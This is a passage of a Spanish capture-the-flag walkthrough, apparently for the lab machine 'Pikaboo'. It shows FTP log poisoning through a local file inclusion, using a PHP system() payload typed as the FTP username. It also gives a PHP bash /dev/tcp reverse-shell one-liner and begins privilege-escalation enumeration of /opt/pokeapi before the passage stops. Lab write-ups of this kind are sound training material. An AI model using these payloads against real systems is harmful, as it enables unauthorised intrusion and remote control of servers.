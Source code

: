 Probemos esto:

* Primero accedamos al servicio **FTP** desde nuestra terminal e introduzcamos el payload en el campo donde se nos pida el usuario:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ ftp 10.10.10.249 21
Connected to 10.10.10.249.
220 (vsFTPd 3.0.3)
Name (10.10.10.249:z3r0byte): <?php system("uname -a"); ?>
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
```
Y en el campo de contraseña ponemos cualquier cosa.

* Ahora visualisemos el log de **FTP** desde la web mediante el **LFI**

![image](https://user-images.githubusercontent.com/67548295/145235981-b6d3676d-83c0-4db9-a577-5ff77578d54b.png)

Podemos confirmar que tenemos una vulnerabilidad de **log poisoning**

A partir de aquí es muy fácil obtener acceso al sistema, solo tendremos que añadir un comando que nos entable una **reverse shell** en el payload:

![image](https://user-images.githubusercontent.com/67548295/145458815-e232867a-c930-43f7-9233-ceace30697e2.png)
 
 > Payload de reverse shell en PHP: \<?php system\(\"/bin/bash -c \'bash \-i \>& /dev/tcp/LHOST/LPORT 0\>&1\'\"\); ?\>

¡Perfecto! Ya tenemos acceso a la máquina, ahora a escalar privilegios

## Privilege Escalation

Enumero el sistema en busca de vectores de explotación para escalar privilegios.

Enncuetro un directorio con nombre **_pokeapi_** dentro de `/opt/`:

```bash
www-data@pikaboo:/$ ls -l /opt/pokeapi
total 72
-rw-r--r-- 1 root root 3224 Jul  6 20:17 CODE_OF_CONDUCT.md
-rw-r--r-- 1 root root 3857 Jul  6 20:17 CONTRIBUTING.md
-rwxr-xr-x 1 root root  184 Jul  6 20:17 CONTRIBUTORS.txt
-rw-r--r-- 1 root root 1621 Jul  6 20:16 LICENSE.md
-rwxr-xr-x 1 root root 3548 Jul  6 20:16 Makefile
-rwxr-xr-x 1 root root 7720 Jul  6 20:17 README.md
drwxr-xr-x 6 root root 4096 May 19  2021 Resources
-rw-r--r-- 1 root root    0 Jul  6 20:16 __init__.py
-rw-r--r-- 1 root root  201 Jul  6 20:17 apollo.config.js
drwxr-xr-x 3 root root 4096 Jul  6 20:16 config
drwxr-xr-x 4 root root 4096 May 19  2021 data
-rw-r--r-- 1 root root 1802 Jul  6 20:16 docker-compose.yml
drwxr-xr-x 4 root root 4096 May 19  2021 graphql
-rw-r--r-- 1 root root  113 Jul  6 20:16 gunicorn.py.ini
-rwxr-xr-x 1 root root  249 Jul  6 20:16 manage.py
drwxr-xr-x 4 root root 4096 May 27  2021 pokemon_v2
-rw-r--r-- 1 root root  375 Jul  6 20:16 requirements.txt
-rw-r--r-- 1 root root   86 Jul  6 20:16 test-requirements.txt
```
Como atacante, me llama la atención el directorio `config`, veamos lo que hay dentro:
